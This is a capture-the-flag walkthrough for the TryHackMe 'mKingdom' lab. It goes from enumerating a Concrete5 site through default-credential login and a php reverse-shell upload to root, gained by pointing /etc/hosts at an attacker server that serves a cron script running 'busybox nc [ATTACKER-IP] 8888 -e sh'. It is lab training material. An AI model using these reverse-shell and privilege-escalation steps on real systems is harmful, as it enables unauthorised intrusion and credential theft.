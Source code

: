 # TRYHACKME : mKingdom

Another CMS beginner room to practice.

## Enumeration

### NMAP
```
PORT   STATE SERVICE VERSION
85/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: 0H N0! PWN3D 4G4IN
|_http-server-header: Apache/2.4.7 (Ubuntu)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.4
OS details: Linux 4.4 
Network Distance: 5 hops

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   131.40 ms 10.4.0.1
2   ... 4
5   330.85 ms 10.201.36.52
```

This one leads us to port 85. A troll page. Let's fuzz!

### Gobuster
/app                  (Status: 301) [Size: 312] [--> http://10.201.36.52:85/app/]      
```
```
Now we find an interesting blog page, about mushrooms... Mario's fav I see. Let's check sum more.

This site is built in **Concrete5** CMS.

Let's do sum further enumeration:
```
$ whatweb http://10.201.36.52:85/app/castle/index.php/blog
http://10.201.36.52:85/app/castle/index.php/blog [200 OK] Apache[2.4.7],
Bootstrap, Concrete5[8.5.2], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)],
IP[10.201.36.52], JQuery, MetaGenerator[concrete5 - 8.5.2], PHP[5.5.9-1ubuntu4.29], Script[text/javascript],
Title[Blog :: toad], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/5.5.9-1ubuntu4.29], X-UA-Compatible[IE=edge]
```

This is using an **8.5.2** version of Concrete5... Let's see if there's an existing exploit.

### Exploit
Can't find on **Searchsploit** so let's get our search browsers.

And [Voila!](https://hackerone.com/reports/768322). An RCE exploit.

But we need first to access the admin access...

#### Admin

Inspecting the site, you'll find a log in button at the bottom of the page. (Hard for me to see)

We can try some bruteforce.

Before trying some enormous bruteforce, let's enter basic credentials: `admin:password`.

Another voila.

We can now upload the reverse shell!

> Below the **Dashboard**, proceed to the following order: **System & Settings** > **Allowed File Types** > Add **php** in the end > then save.

After the allowing php, get a php reverse shell. You can get one in Kali: **/usr/share/webshells/php/php-reverse-shell.php**.

> Still in the **Dashboard**, head to **Files**, then upload the php file.
> Start a listener on local machine, then click the url leading you to the php file.

## Shell
Stabilize first the shell for smooth compromise.

> Enter in the target machine:
> ```
> python3 -c ‘import pty;pty.spawn(“/bin/bash”)’
> ```
> Enter **ctrl + z** to put the shell in the background for a sec.
> Then enter this in the host machine, to go back to the shell:
> ```
> stty raw -echo; fg
> ```
> Then enter:
> ```
> export TERM=xterm
> ```

## Privilege Escalation

### www-data to Toad

There are no found vulnerabilities but leaks with further enumeration.
There's also no user flag to be retrieved in this user.
There's a readable sql data nearby though.
Concatenate **/var/www/html/app/castle/application/config/database.php** and retrieve the said credentials.

### Toad to Mario

There's also no user flag to be retrieved in here.
It was also tricky to find system vulnerabilities, but we can from simple carelessness.
Check the environment variables:
```
toad@mkingdom:~$ env
...
PWD_token=[RETRIEVE-BASE64-CODE]
...
```
Decode the base64 code into plain text.

### Mario to Root

We can now finally retrieve the user flag.
Escalating to root is going to be complicated. But hang on.

Other walkthroughs used a snooping tool called **Pspy**. It tracks processes without root permissions.

The vulnerability leads us to cronjob. One of the processes runs a shell code from **mkingdom.thm:85** called **counter.sh**.

From Pspy:
```
curl mkingdom.thm:85/app/castle/application/counter.sh
```

Checking the given hosts, the file is writable!
```
$ls -la /etc/hosts
-rw-rw-r-- 1 root mario 342 Jan 26 19:53 /etc/hosts
```

Let's modify the ip into our attacker ip:
```
127.0.0.1        localhost
[ATTACKER-IP]    mkingdom.thm
...
```

### ATTACKER MACHINE
In our `attacker machine` let's replicate the folder path of the counter.sh:
```
$ mkdir -p app/castle/application/
```
Then add a shell same as counter.sh:
```
$ cat app/castle/application/counter.sh
#!/bin/bash
busybox nc [ATTACKER-IP] 8888 -e sh
```

From another attacker terminal run a server in 85:
```
$ python -m http.server 85
Serving HTTP on 0.0.0.0 port 85 (http://0.0.0.0:85/)  ...
``` 

And also run a listener to capture the reverse once the **container.sh** runs.\
```
$ nc -lvnp 8888
listening on [any] 8888  ...
connect to [ATTACKER-IP]  
```

After a few seconds, there will be request appearing in the python server.
Soon the reverse shell will appear in the listener.

Finally the root access. Retrieve now the root.txt!



